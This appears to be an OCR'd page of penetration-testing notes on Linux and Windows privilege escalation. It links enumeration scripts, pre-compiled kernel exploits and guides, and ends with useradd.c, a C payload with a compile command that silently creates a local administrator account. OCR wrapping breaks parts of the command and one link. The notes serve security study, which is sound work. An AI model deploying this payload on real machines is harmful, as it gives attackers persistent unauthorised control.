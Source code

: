 -  write permissions to /etc/passwd or sticky bit.

- LinuxPrivChecker [(https://github.com/sleventyeleven/linuxprivchecker)][632d99cf],
- LinEnum ([(https://github.com/rebootuser/LinEnum)][7e52e0f5]), and
- PowerUp ([https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp][c844aa43]).

# Pre-compiled exploits :
1. abatchy17’s Windows Exploits ([https://github.com/abatchy17/WindowsExploits][96609f81]) &
2. lucyoa’s kernel exploits ([https://github.com/lucyoa/kernel-exploits][233cd690]).

  [632d99cf]: https://github.com/sleventyeleven/linuxprivchecker "LinuxPrivChecher"
  [7e52e0f5]: https://github.com/rebootuser/LinEnum "LinEnum"
  [c844aa43]: https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp "PowerUp"
  [96609f81]: https://github.com/abatchy17/WindowsExploits "abatchy17"
  [233cd690]: https://github.com/lucyoa/kernel-exploits "kernel-exploits"

# Links

# Privilege Escalation:

        - g0tmi1k Linux Priv Esc (https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
        - fuzzysecurity Windows Priv Esc (http://www.fuzzysecurity.com/tutorials/16.html)
        - sploitspren Windows Priv Esc (https://www.sploitspren.com/2018-01-26-Windows-Privilege-
        - Escalation-Guide/)
        - togie6 Windows Priv Esc Guide (https://github.com/togie6/Windows-Privesc)

Kernel Exploits:

        abatchy17’s Windows Exploits (https://github.com/abatchy17/WindowsExploits)
        lucyoa’s kernel exploits (https://github.com/lucyoa/kernel-exploits)

Scripts:

        LinuxPrivChecker (https://github.com/sleventyeleven/linuxprivchecker)
        LinEnum (https://github.com/rebootuser/LinEnum)
        PowerUp (https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp)


# Scripts

**useradd.c**

Windows - Add user.


      #include <stdlib.h> /* system, NULL, EXIT_FAILURE */

       int main ()
       {
         int i;
         i=system ("net user <username> <password> /add && net localgroup administrators <username> /ad
       d");
         return 0;
       }


 # Compile
` i686-w64-mingw32-gcc -o useradd.exe useradd.c`
